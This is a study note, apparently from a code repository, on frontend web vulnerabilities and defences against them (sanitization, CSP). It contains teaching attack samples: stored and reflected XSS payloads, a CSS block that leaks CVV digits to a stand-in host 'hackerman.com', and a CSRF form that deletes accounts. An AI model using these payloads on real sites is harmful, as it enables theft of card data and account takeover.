 # Vulnerabilities

## Consequence of vulnerable code (on frontend)

### Broken UI

**Example:** user can't click the 'pay' button => service losses money.

### Tracking of users activity

**Example:** hacker may find out what sites user visits and what is trying to find.
Confidential infotmation can be compromosied.

### Slowing down client app work

**Example:** slow information updates (money courses in bank, for example) may lead to financial loss.

### Lose of confidential data

**Example:** loss of email and password or controll over the site (via lose of authentication info like cookie) can lead
to a loss of client's data, client's money, and just loss of client.

## XSS (Cross-Site Scripting) attack

It's an injection of a malicious code into client's code - the one executed in browser (js, html, css).

## Examples

**Example of Stored-XSS (malicious code comes from server->database):**
```html
<ul id="comments"></ul>

<script>
    // load comments from server and insert it to html
    fetch('/comments')
            .then(res => res.json())
            .then(addComments)
    
    function addComments(comments) {
        document.getElementById('comments').innerHTML = commentsToHTML(comments)
    }
    
    function commentsToHTML(comments) {
        return comments.map(commentTemplateMaker).join('')
    }

    function commentTemplateMaker({imgUrl, text}) {
        return `
            <li>
                <img src="${imgUrl}"/>
                <p>${text}}</p>
            </li>
        `
    }
</script>
```
If the result on fetch request will be something like
```json
[
  {
    "imgUrl": "/avatar.png\" onload='alert(1)' onerror='console.log(`ATTACK`)'",
    "text": "some comment"
  }
]
```
then in markup will get an executive js code (once img is loaded/fail on load), like
```html
<li>
    <img src="/avatar.png" onload="alert(1)" onerror="console.log(`ATTACK`)">
    <p>some comment</p>
</li>
```
**Example of Reflected-XSS (caused by a not safe data handling on the server):**
```html
<a href="http://site.com?page=1&search=&lt;script&gt;alert(1)&lt;/script&gt;">
  click me!
</a>
```
If data from url (`search=&lt;script&gt;alert(1)&lt;/script&gt;`) is reflected to a html (via echo in php for example), then in html on `http://site.com` user may get:
```html
<script>alert(1)</script>
```

### How to deal with XSS

To prevent XSS attacks, the one should:
* Use sanitization of content on client: for example [DOM Purify](https://www.npmjs.com/package/dompurify)
* Use sanitization on the server
* Use Content Security Policy headers

### Content Security Policy (CSP)

CSP can be set via headers in HTTP response, or via meta tags in html:
```html
<meta
  http-equiv="Content-Security-Policy"
  content="
    default-src 'none';
    script-src 'self';
    connect-src 'self' https://*.friendly-site.com;
    style-src 'self';
    img-src 'self' too.friendly.com;
  "
/>
```
CSP - it's a "white list" of what can be used on the page as a source of some content. More info is [about CSP](https://www.w3.org/TR/CSP3/#csp-directives).

## CSS injection
Some confidential data can be stolen if malcious code is injected in css.  
Let's imagine that user wants to make a payment on some site via bank card, and to do this user should
enter CVV code (3 digits on back of the card). If attacker has access to a css file, used on payment page, then it's possible
to steal cvv info like this:
```css
#input[value^='0'] { background-image: url('http://hackerman.com?value=%10');}
#input[value^='1'] { background-image: url('http://hackerman.com?value=%11');}
#input[value^='2'] { background-image: url('http://hackerman.com?value=%12');}
#input[value^='3'] { background-image: url('http://hackerman.com?value=%13');}
#input[value^='4'] { background-image: url('http://hackerman.com?value=%14');}
#input[value^='5'] { background-image: url('http://hackerman.com?value=%15');}
#input[value^='6'] { background-image: url('http://hackerman.com?value=%16');}
#input[value^='7'] { background-image: url('http://hackerman.com?value=%17');}
#input[value^='8'] { background-image: url('http://hackerman.com?value=%18');}
#input[value^='9'] { background-image: url('http://hackerman.com?value=%19');}
```
`#input` - selector of an input for a cvv code  
So hacker may fix request on hacker's site depending on what digit user is entering (because requests are made in css for a background-image).  
Usage of CSP can help to deal with it.

## CSRF (Cross Site Request Forgery)
That attack is based on passing cookie when executing request.  
For example `attacker.com` has a form like
```html
<form action="http://bank.com/remove_account">
    <input type="email"/>
</form>
```
if `http://bank.com/remove_account` is an endpoint that allowes to remove an account of a looged in user, 
and if user authentication info is kept in session cookie, then submitting such a form (on a hacker site `attacker.com`) 
can lead to an account removal, because with a request to a `http://bank.com/remove_account` authentication cookie will be sent,
and for a server it will look like a user triggere that action (account removal).

There are several ways to [prevent CSRF attacks](https://habr.com/ru/company/oleg-bunin/blog/412855/).

## Vulnerable & outdated components
Malware can be present in third-party libs.

## Unvalidated redirects & forwards

## IDOR (Insecure Direct Object References)
**Example:**
`http://example.come/?user=18` - link to a users private profile page  
If changing `user=18` to user `user=19` gives access to a profile of user with id=19 - it's IDOR vulnerability.


## Prototype Polution

## Clickjacking

Usage of a transparent iframe of one site (where user may be logged in for example) over another site (part of site of a hacker).

## ReDos (Regular expressions denial of service)

Time of regular expressions executions can be many seconds/hours and more, depending on regular expression and text. 


## References
* [https://owasp.org/www-project-top-ten/](https://owasp.org/www-project-top-ten/)
* [https://habr.com/ru/company/simbirsoft/blog/659847/](https://habr.com/ru/company/simbirsoft/blog/659847/)
* [https://www.geeksforgeeks.org/reflected-xss-vulnerability-in-depth/](https://www.geeksforgeeks.org/reflected-xss-vulnerability-in-depth/)
* [https://habr.com/ru/company/oleg-bunin/blog/412855/](https://habr.com/ru/company/oleg-bunin/blog/412855/)
